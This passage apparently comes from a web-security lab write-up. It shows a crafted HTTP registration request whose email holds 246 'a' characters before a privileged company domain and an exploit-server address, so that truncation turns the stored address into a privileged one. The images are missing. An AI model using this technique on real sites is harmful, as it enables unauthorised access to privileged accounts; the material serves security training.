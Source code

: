 The email domain is 246 “a” characters:

![img](media/3bcfc575d2ba3a9bd82c1ce9cf282948.png)

With the following email:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /register HTTP/2
...

csrf=alQnzW8wE9JhzqQtr4xigsVi409cfLqF&username=test15&email=attackeraaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa%40dontwannacry.com.exploit-0a67006c0423355d834f36b001cf0030.exploit-server.net&password=test15
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/026e9d7040902e2f664814111bf8593a.png)
